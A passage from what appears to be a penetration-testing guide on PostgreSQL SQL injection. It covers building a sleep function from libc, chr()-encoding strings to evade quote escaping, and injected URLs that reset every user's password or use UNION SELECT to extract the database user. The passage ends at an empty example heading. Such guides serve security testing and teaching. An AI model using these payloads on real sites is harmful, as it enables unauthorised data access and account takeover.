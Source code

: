 In addition, you can easily create a custom `pg_sleep(n)` in previous versions by using libc:

- `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Single Quote Unescape

Strings can be encoded, to prevent single quotes escaping, by using `chr()` function.

- `chr(n)`: Returns the character whose ASCII value corresponds to the number `n`
- `ascii(n)`: Returns the ASCII value which corresponds to the character `n`

Let's say you want to encode the string 'root':

```sql
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

We can encode 'root' as:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### Example

`http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Attack Vectors

#### Current User

The identity of the current user can be retrieved with the following SQL SELECT statements:

```sql
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```

##### Examples

```sql
http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Current Database

The built-in function current\_database() returns the current database name.

##### Example
